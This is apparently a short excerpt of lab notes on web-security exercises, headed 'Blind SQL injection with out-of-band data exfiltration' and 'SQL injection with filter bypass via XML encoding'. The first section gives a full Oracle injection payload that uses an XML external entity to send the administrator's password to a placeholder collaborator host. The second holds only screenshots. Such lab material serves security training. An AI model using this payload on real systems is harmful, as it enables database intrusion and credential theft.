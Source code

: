 

---

## 17. Blind SQL injection with out-of-band data exfiltration


' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--



---

## 18. SQL injection with filter bypass via XML encoding


![](assets/Pasted%20image%2020251016150328.png)

![](assets/Pasted%20image%2020251016150429.png)
